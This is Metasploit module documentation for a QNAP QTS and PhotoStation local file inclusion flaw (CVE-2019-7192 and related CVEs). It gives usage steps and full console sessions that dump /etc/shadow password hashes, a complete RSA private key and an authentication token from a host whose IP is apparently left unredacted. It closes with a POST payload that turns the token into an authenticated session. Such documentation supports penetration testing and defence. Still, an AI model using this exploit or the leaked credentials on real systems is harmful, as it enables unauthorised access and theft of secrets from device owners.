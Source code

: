## Vulnerable Application

### Introduction

This module abuses a vulnerability in QNAP QTS and PhotoStation that allows an
unauthenticated user to download files off the file system, and because the server
runs as root, it's possible to include sensitive files, including ssh private keys and
password hashes.

`/etc/shadow` entries can be processed offline, the module saves them in the creds,
and they can be cracked using john the ripper, or hashcat.

There is some confusion in the CVEs assigned to this vulnerability, it corresponds to
one of these : CVE-2019-7192, CVE-2019-7194 or CVE-2019-7195, notice that two of them
have the same description.


## Verification Steps

1. Start `msfconsole`
2. Do: `use auxiliary/gather/qnap_lfi`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
6. Verify if `check` detects vulnerable hosts as it should
7. Do: `run`
8. Do: `loot`
9. Verify if the run command retrieved the content of /etc/shadow if the host was vulnerable, and saved the file in the loot
10. Do: `creds`
11. Verify if the retrieved hashes were saved in the creds, and their hash type identified correctly.

## Options

### FILEPATH

Set this to the file you want to dump. The default is `/etc/shadow`.

### PRINT

Whether to print file contents to the screen, defaults to true.

## Scenarios

### QNAP QTS 4.3.3

#### Dumping hashes from `/etc/shadow`

```
msf5 auxiliary(gather/qnap_lfi) > run
[*] Running module against [REDACTED]

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MDIy
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin
[+] File content:
admin:$1$$0EDxoz0B/Et7aYxLtR/Ik/:14233:0:99999:7:::
guest:$1$$ysap7EeB9ODCrO46Psdbq/:14233:0:99999:7:::
httpdusr:!:16923:0:99999:7:::
Cherle:$1$$Bb3R7AIqzIemj7kGq5k/p1:16923:0:99999:7:::
redouane:$1$$l265pXOEMo0cRDhod/Z3M1:16923:0:99999:7:::
Test:$1$$0EDxoz0B/Et7aYxLtR/Ik/:16928:0:99999:7:::
Merle:$1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0:17438:0:99999:7:::
[appuser]:!:17451:0:99999:7:::
[sshd]:!:17637:0:99999:7:::
a9d01ba7:$1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/:18405:0:99999:7:::
[*] adding the /etc/shadow entries to the database
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > loot

Loot
====

host           service  type       name    content                   info  path
----           -------  ----       ----    -------                   ----  ----
[REDACTED]              qnap.http  shadow  text/plain                      /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin

msf5 auxiliary(gather/qnap_lfi) > creds 
Credentials
===========

host  origin         service  public      private                             realm  private_type        JtR Format
----  ------         -------  ------      -------                             -----  ------------        ----------
      [REDACTED]              admin       $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              guest       $1$$ysap7EeB9ODCrO46Psdbq/                 Nonreplayable hash  md5crypt
      [REDACTED]              Cherle      $1$$Bb3R7AIqzIemj7kGq5k/p1                 Nonreplayable hash  md5crypt
      [REDACTED]              redouane    $1$$l265pXOEMo0cRDhod/Z3M1                 Nonreplayable hash  md5crypt
      [REDACTED]              Test        $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              Merle       $1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0         Nonreplayable hash  md5crypt
      [REDACTED]              a9d01ba7    $1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/         Nonreplayable hash  md5crypt

msf5 auxiliary(gather/qnap_lfi) > 

```

The hashes can be used to login from the web interface, or through ssh if it's enabled.

#### Dumping ssh private keys

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /root/.ssh/id_rsa
FILEPATH => /root/.ssh/id_rsa
msf5 auxiliary(gather/qnap_lfi) > exploit 
[*] Running module against 62.46.219.229

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MjE1
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213018_default_62.46.219.229_qnap.http_983860.bin
[+] File content:
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtKUCApMRysMNtXwybkPvBL7TY4w/gSZ7k0TN6JkNXMUVI2oM
euNvkII/xxRmOO9IFenpoOFzCr3xlWWm7qsHON5DDJ+e24HC/C8uPISY0klBn+JD
ddKgQl4ebUToEaKJU+uPiAfDkHO2qh1q6DMnbHRQ39QHyw1W1UhegjCNDAQiLJ8Q
jsITJD6j4VxsjUeginnPD/Rt5hcM9pmYn580A2b4s1P1XN5JzpPGcZ015Y7XUXVu
Xg7G4uq+fi8TTKJyqCS81W//TwX3SBzEzSecxU7whMF8Xaa6WiZl1pj/4llKZnIJ
y49DKOKEMdwa7SEJgyuVZiF+vsu6yk3ES/MY1wIDAQABAoIBACVKfvy7EYwy8eyK
I/sBSSFIp2jAdgeaQx5msL8YgVqqUK/L36Gqu8gwKyxUuLl+I/pqHFGa2N3Z0jpO
DsTsR4Rk1aCQfwG/atoWf0v873NRrhtsYRK8lVq+BTf3ZpTlYcYSNcIWIDf8uzOo
+P3QOY45AM0D/0vaiBdlZiUoEqXtB6fybwvNj2uqq1uzv0E0liTb/HtqR2Ai4fHZ
ECs0TdTlIfF9vC8kO1ItCOY4pDr06/xgMhGKAnJsgVggRicDUXovnskugqJG9BqO
sNB8i+R309YiF6/T79pzjAEqxNKcZ+5ckn3QOMrBnsj5Yi/3iDYnYK7y2WB6phnM
JJ8pI3kCgYEA4CzcDOHXnQ4BD2zNPYdFv1UPfuB2WL0nOUBPh/7Z87CflMftMeHS
k5rFxvM33Zdq5a5MEkUTpkC79ID6mVKJd3HT/AaYIvCiYJDbKHYlbrLaHChc0t9a
qvmNA244EbPdm/2r7g68PhEXYGnnHDq+FQ5duyA0yqcSm0QP6+3lK4MCgYEAzkof
8SVh/UN7auUWnIv2H1J6PUZHjXDzRPLDz5FqYrhpSu4mt7tzDoFNwpP1A3cV3eVP
f60yrwQH7U4a6DtaC72gh7kdYogtY1UD+UOWX1Ocd0083zJGPO9Xbnd2yS5nMnQe
I0LpynjWmLDZhENHrzm3rcL9tV+IZ/gv6RHvOR0CgYBI4sz480TjL3ZwyXNBmgW3
W7SaD+jqmTVzi9FP6jB65uY7vXUFTuLkUuIS+WkkhuKeorjhB8yHtWxm5riTuR4w
07WUr6AvXAWvV+mpkiBBia0Ykpb7iNs108VhZCieuNhIq4WG9QuHMo9jLYuSxhaf
Sfh3qtT/PqryCIMUtlhYeQKBgD8hQBU0M4CmHibgZMMTsgZz3yTRVSRb5Ja9FF95
SO1dMhvUNdUUcGmH+JwLW3fsAa0ed+3CuzgEK8jbljBruWrOZUojxHJa6kjzw3uM
y3/wvnlkEbTcVdJgDImp1ZhLsxkln/N6jsF/qWyg8nAfhtiA+U0b1ziiO8RVl5Pk
ASmhAoGBANIaI7/PzJwc+VevrWTzd8cakF9h8OseG6hIK5Hz3B9YpvfLqe0qWfeU
tfdh+WpFqQycJdz2RimVDhSAKhnHy3dkzHmuGnN55UmFqX/eDe5WCoxk7QP98W+y
ECvSmTESX+vkqMq5sbzBxAf6TAw+i14eH4CgEsGnc0ui7ri5CU6y
-----END RSA PRIVATE KEY-----
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > 
```

#### Retrieving the token, can be used to authenticate

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /share/Multimedia/.@__thumb/ps.app.token
FILEPATH => /share/Multimedia/.@__thumb/ps.app.token
msf5 auxiliary(gather/qnap_lfi) > exploit 
[*] Running module against 62.46.219.229

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MzUw
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213233_default_62.46.219.229_qnap.http_815651.bin
[+] File content:
8f9825b4410aaa3bc128865b6a1e75a6
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > 
```

The token can then be used to authenticate, by sending a POST request to the uri `/cgi-bin/authLogin.cgi`, for the example above:

sending the POST payload: `app_token=8f9825b4410aaa3bc128865b6a1e75a6&app=PHOTO_STATION&auth=1`

This would return an `authSid`, that can be used with most endpoints that require authentication.
